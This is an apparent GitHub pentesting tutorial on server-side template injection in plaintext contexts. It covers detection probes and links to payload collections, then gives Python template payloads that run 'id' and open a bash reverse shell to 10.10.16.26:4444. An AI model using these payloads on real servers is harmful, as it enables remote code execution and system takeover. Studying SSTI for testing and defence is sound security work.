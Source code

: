 # Plaintext Context SSTI.
## Detection.
The first task we have to do to detect a SSTI vulnerability is to check which is the template that is being used by the server. After that we have two possible ways:
- We extract the server template so we know exactly the programming lenguaje that is being used by the server.
- We have to try the next expressions to realize which one of them are interpreted so we can exactly know which programming lenguage we have to use to deploy our payload.
```javascript
{{7*7}} 
${{7*7}} 
${7*7} 
#{7*7} 
<%= 7*7 %>
```
### Case 1:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/86a348ed-e521-412d-8e41-3a0b3877dce6" width="600"><br />
### Case 2: 
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/bde33c1d-911c-43da-ae03-ddd2b46bdce1" width="500">
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a9136b41-09cb-48fd-bc6d-40848bad3d96" width="500">

After that we can check some resources as 1- [PayloadsAllTheThings-SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) or 2- [Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) to obtain a good payload to use in the target server.

## Payload examples.
Here are some payload examples that in my experience usually work, however, they sometimes may not work properly so we have to check the previous resources to see if we can obtain a useful payload.
### Python.
#### Executing a command:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
#### Obtaining a shell:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.26/4444 0>&1" ').read() }}
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a6610bf1-9f80-454c-9099-3adee2423d49" width="580">

<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0bbe557f-a638-43fe-ac61-b39e563d3e83" width="500">






